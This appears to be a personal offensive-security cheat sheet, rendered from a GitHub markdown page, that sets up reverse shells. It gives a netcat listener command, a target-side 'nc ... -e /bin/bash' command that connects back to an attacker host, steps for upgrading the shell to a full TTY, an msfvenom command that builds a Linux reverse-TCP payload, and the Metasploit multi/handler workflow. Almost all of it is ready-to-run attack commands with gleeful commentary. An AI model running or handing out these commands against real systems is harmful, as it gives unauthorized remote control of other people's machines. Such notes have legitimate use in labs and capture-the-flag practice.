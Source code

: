 
## Simple Netcat + Python reverse shell

Setup a simple netcat shell:

On attacker: 

1. sudo rlwrap nc -lvnp <port>

On target: 

1. nc <ip-attacker> <port> -e /bin/bash

Now from the reverse shell do this:

1. python -c 'import pty;pty.spawn("/bin/bash")'
2. export TERM=xterm
3. CTRL-Z (move shell in background)
4. stty raw -echo; fg (turn off the echo of our tty and put the python rev shell in foreground)
5. use 'reset' to fix the shell when exiting from rev shell

This is a half-way between the horrible netcat simple shell and the better socat encrypted shell


## Payload generator

msfvenom 

generates payload both staged and stageless for shell and meterpreter (metasploit shell handler)

use like:

msfvenom -p linux/x86/shell_reverse_tcp -f elf -o payload LHOST=0.0.0.0 LPORT=6969

its great!


## Reverse shell with Metasploit using multi/handler and msfvenom payload (ABSOFUCKINGLUTELY GREAT)
    
    0. Generate a suitable payload with msfvenom and put it in the target machine (maybe using nc or smth easier)
    1. use the multi/hanlder module on msfconsole (info once inside to get help or options to see the available options) with the payload used with msfvenom, set LHOST and LPORT
    2. run exploit to start the listener and run the payload on the target machine, et voila you can do everyfuckingthing!










